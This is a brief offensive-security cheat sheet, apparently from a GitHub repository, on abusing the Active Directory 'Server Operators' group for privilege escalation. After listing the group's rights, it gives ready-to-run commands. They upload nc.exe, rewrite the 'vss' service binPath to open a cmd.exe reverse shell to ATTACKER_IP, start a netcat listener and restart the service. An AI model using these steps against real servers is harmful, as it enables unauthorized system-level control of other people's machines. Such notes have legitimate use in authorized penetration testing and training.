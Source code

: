# Server Operators Active Directory Security Group

### Actions that this group performs:

#### 1) Start and stop services

#### 2) Create and delete network shared resources

#### 3) Backup and Restore files (SAM SECURITY SYSTEM hives dump)

#### 4) Sign in to a server interactively

#### 5) Format the hard disk drive of the computer

#### 6) Shutdown the computer

## Exploitation

### Steps:

## TIP: Upload a nc binary or run a powershell reverse shell if we use evil-winrm

 - Upload a nc binary to target machine (Upload /usr/share/windows-resources/binaries/nc.exe .)

 - sc.exe config vss binPath="C:\temp\nc.exe -e cmd.exe ATTACKER_IP PORT"

 - nc -lvnp PORT (Attacker machine)

 - sc.exe stop vss

 - sc.exe start vss
